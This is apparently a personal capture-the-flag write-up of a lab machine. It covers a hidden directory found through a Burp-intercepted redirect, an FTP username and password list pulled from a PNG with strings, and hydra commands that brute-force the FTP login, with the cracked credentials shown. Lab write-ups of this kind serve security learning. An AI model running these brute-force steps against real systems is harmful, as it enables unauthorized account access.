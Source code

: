 
´´´
Love it when people block Javascript...
This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!
Make sure your audio is turned up!
´´´

Continue here do another nmpa scan but use -vv

The scan did nothing. But on the page with the rickroll, if you go there with java script on, you get redirected to youtube.
If java is not enabled, I stay on the same page. This means something is going on. I intercept the traffic with burp.

HTTP/1.1 302 Found
Date: Thu, 18 Nov 2021 19:58:52 GMT
Server: Apache/2.4.10 (Debian)
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

I get redirected over /WExYY2Cv-qU

Visiting this page brings me to another page with

Hot_Babe.png

so I download it and check the file.

I tried steghide first with no succes, but runing

	strings Hot_babe.png
	...
	Eh, you've earned this. Username for FTP is ftpuser
	One of these is the password:
	Mou+56n%QK8sr
	...


### FTP

OLD:
For this Version of vsftpd I found https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1419

The last line from the Hot_babe.png is not the password just randome strings. But since I have a user now, I can try and bruteforce the password with hydra

	hydra -v -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.44.243:21 -o scans/hydra_ftp

-> this takes too long, I NEED TO READ More Carfully, there was a list of passwords in Hot_babe.png
therefore I do

	strings Hot_Babe.png > passwords.txt

Edit everything out exept the passowrds then use hydra with that

	hydra -v -f -l ftpuser -P ./passwords.txt ftp://10.10.44.243:21 -o scans/hydra_ftp
	[21][ftp] host: 10.10.44.243   login: ftpuser   password: 5iez1wGXKfPKQ  
